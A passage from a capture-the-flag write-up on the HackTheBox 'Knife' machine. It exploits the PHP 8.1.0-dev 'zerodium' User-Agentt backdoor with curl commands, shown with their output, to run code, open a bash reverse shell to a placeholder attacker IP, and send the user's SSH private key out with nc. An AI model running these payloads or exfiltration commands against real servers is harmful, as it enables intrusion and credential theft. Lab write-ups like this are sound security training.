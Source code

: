# Exploitation
Reading throught the article found out that the backdoor can be accessed using User-Agentt Header to execute the code.
We have to append the string zerodium which is also one of the leading zero day vuln finder firm.
so let's try PoC for this exploit.
```bash
kali@kali:~/HackTheBox/Knife$ curl -i -s -k -H 'User-Agentt: zerodiumvar_dump(2*3);' http://10.10.10.242/
HTTP/1.1 200 OK
Date: Sun, 23 May 2021 02:28:48 GMT
Server: Apache/2.4.41 (Ubuntu)
X-Powered-By: PHP/8.1.0-dev
Vary: Accept-Encoding
Transfer-Encoding: chunked
Content-Type: text/html; charset=UTF-8

int(6)   
```
Looks like we triggered the RCE let's get going and get try to excute system commands.
```bash
kali@kali:~/HackTheBox/Knife$ curl -i -s -k -H 'User-Agentt: zerodiumsystem("id");' http://10.10.10.242
HTTP/1.1 200 OK
Date: Sun, 23 May 2021 02:34:09 GMT
Server: Apache/2.4.41 (Ubuntu)
X-Powered-By: PHP/8.1.0-dev
Vary: Accept-Encoding
Transfer-Encoding: chunked
Content-Type: text/html; charset=UTF-8

uid=1000(james) gid=1000(james) groups=1000(james)
```
Looks like the web server is running as james so one less step for us.
Let's get the REV-Shell.
```bash
kali@kali:~/HackTheBox/Knife$ curl -i -s -k -H $'User-Agentt: zerodiumsystem(\"bash -c \'bash -i >& /dev/tcp/<YOUR IP>/<PORT> 0>&1\'\");' http://10.10.10.242
```
And boom we have the shell
```bash
kali@kali:~/HackTheBox/Knife$ rlwrap nc -nlvp 1234
listening on [any] 1234 ...
connect to [<YOUR IP>] from (UNKNOWN) [10.10.10.242] 60452
bash: cannot set terminal process group (966): Inappropriate ioctl for device
bash: no job control in this shell
id
id
uid=1000(james) gid=1000(james) groups=1000(james)
james@knife:/$ 
```
# PrivESC
## SSH Access
Before PrivESC let's just get the stable shell looking into users .ssh we found the key id_rsa
```bash
cd .ssh
cp id_rsa.pub authorized_keys
nc <YOUR IP> <PORT> < id_rsa
```
and then in your shell 
```bash
kali@kali:~/HackTheBox/Knife$ nc -nlvp 12345 > id_rsa
```